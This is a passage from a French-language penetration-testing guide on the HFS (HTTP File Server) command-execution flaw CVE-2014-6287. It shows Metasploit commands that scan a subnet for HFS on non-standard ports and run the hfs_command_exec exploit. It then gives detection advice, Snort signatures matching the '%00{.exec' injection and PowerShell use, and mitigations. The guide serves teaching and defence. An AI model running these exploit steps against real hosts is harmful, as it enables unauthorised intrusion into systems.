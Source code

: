 ```bash
exploit
```

### Scénario 3 : HFS sur Port Non-Standard
```bash
# Scanner les ports pour HFS
use auxiliary/scanner/http/http_version
set RHOSTS 192.168.1.0/24
set PORTS 80,8080,8000,8888,9999
run

# Exploiter sur port découvert
use exploit/windows/http/hfs_command_exec
set RHOSTS target_ip
set RPORT 8080
exploit
```

## Détection et Contre-mesures

### Détection d'Exploitation
```bash
# Logs Windows à surveiller
# Event ID 4688 - Process creation
# Event ID 4624 - Logon success
# Event ID 4648 - Logon with explicit credentials

# Surveillance réseau
# Connexions vers ports inhabituels
# Trafic HTTP suspect vers /search
# Téléchargements de fichiers exécutables
```

### Signatures IDS/IPS
```bash
# Signature Snort pour CVE-2014-6287
alert tcp any any -> any any (msg:"HFS Command Execution Attempt"; content:"search="; content:"%00{.exec"; sid:1000001;)

# Détection PowerShell
alert tcp any any -> any any (msg:"HFS PowerShell Injection"; content:"powershell"; content:".exec"; sid:1000002;)
```

### Mitigation
```bash
# Mise à jour vers version patched
# Restriction d'accès par IP
# WAF/Proxy inverse avec filtrage
# Monitoring des processus enfants HFS
# Désactivation de la fonction search si non nécessaire
```
